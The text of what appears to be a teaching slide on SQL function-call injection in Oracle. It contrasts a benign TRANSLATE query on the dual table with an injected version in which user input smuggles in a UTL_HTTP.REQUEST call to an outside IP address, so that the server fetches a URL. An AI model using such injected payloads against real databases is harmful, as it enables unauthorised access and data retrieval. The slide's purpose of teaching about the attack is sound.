

SQL Injection - Function Call Injection
 A database function or operating system function call may be inserted into a vulnerable SQL statement to manipulate the data or make a privileged system call
e.g., the dual table is used in the FROM clause of SQL in Oracle when a user needs to run SQL that does not logically have a table name.
Here, TRANSLATE is used to replace a string of characters with another string of characters.
SELECT TRANSLATE (‘user input’, ‘from_string’, ‘to_string’) FROM dual;
This type of SQL statement can be subjected to a function injection attack
SELECT TRANSLATE (“ || UTL_HTTP.REQUEST (‘http://129.107.2.1/’) || ’’, ‘98765432’, ‘9876’) FROM dual;
The attacker could make the server access a URL to get (possibly privileged) content.